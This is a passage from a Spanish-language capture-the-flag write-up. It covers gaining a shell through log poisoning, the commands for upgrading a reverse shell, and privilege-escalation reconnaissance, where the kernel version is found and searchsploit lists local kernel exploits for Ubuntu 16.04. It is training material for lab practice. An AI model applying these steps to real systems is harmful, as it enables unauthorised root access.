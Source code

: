 Envenenamos los `logs` y ganamos acceso atraves de un `log poisoning`

Para que tengas una mejor reverse shell

```
script /dev/null -c bash
stty raw echo; fg
CTRL+Z
reset xterm
ENTER
```

## Escalada de privilegios

Estamos ante un ubuntu `xenial`

```bash
ww-data@ubuntu:/home/tomato$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04 LTS
Release:	16.04
Codename:	xenial
www-data@ubuntu:/home/tomato$ 
```

La version de kernel es vulnerable 

```bash
www-data@ubuntu:/home/tomato$ uname -a
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/home/tomato$ 
```

Este es el importante `linux/local/45010.c`

```bash
❯ searchsploit linux kernel local privilege escalation 16.04 4.4
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                     | solaris/local/15962.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_se | linux/local/9479.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                             | linux/local/50135.c
Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE' / 'SO_RCVBUFFORCE' Local Privilege Escalation    | linux/local/41995.c
Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Escalation (Metasploit)               | linux/local/40759.rb
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalat | linux_x86-64/local/40871.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target_offset' Out-of-Bounds Privilege  | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x64) - 'AF_PACKET' Race Condition Privil | windows_x86-64/local/47170.c
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation  | linux/local/39772.txt
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                    | linux/local/41886.c
Linux kernel < 4.10.15 - Race Condition Privilege Escalation                                  | linux/local/43345.c
```